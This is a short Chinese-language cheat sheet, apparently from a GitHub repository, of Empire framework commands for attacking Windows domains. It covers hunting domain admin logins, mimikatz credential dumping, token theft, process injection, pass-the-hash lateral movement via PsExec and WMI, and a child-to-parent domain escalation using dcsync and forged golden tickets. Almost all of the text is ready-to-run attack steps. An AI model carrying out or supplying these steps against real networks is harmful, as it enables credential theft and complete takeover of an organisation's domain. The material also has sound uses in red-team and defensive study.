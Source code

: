 	查询域管登录机器
	>usemodule situational_awareness/network/powerview/user_hunter
##### 令牌窃取
	>mimikatz
	>creds  获取并整理hash及密码
	>pth {ID}窃取管理员令牌
	>steal_token {PID}
##### 会话注入
	>ps 查看进程
	>usemodule management/psinject 设置ProcIP和Listener
##### Hash传递
	Invoke-PsExec可能会被查杀
	>usemodule situational_awareness/network/powerview/find_localadmin_access 列出可PSexec横向移动的机器
	>usemodule lateral_movement/invoke_psexec需设置ComputerName和Listener
	或
	>usemodule lateral_movement/invoke_wmi需设置ComputerName和Listener，credID
	跨域
	父域域控：dc.zone.com
	子域域控：sub.zone.com
	子域计算机：pc.sub.zone.com
	子域普通用户：sub\user1
	查看信任关系
	>usemodule situational_awareness/network/powerview/get_domain_trust
	获取父域krbtgt SID，使用management/user_to_sid获取sid
	需设置Domain和User=krbtgt
	>usemodule credentials/mimikatz/dcsync 设置UserName 子域\krbtgt 获取子域hash
	>usemodule credentials/mimikatz/golden_ticket 伪造sid 
	需设置User为伪造用户 sids伪造的标识符{krbtgt sid}-519
	>usemodule credentials/mimikatz/dcsync 获取父域krbtgt的hash
	>usemodule credentials/mimikatz/golden_ticket 使用父域krbtgt进行PTH攻击，指定父域CredID，用户名和域
	>shell dir \\dc.zone.com\c$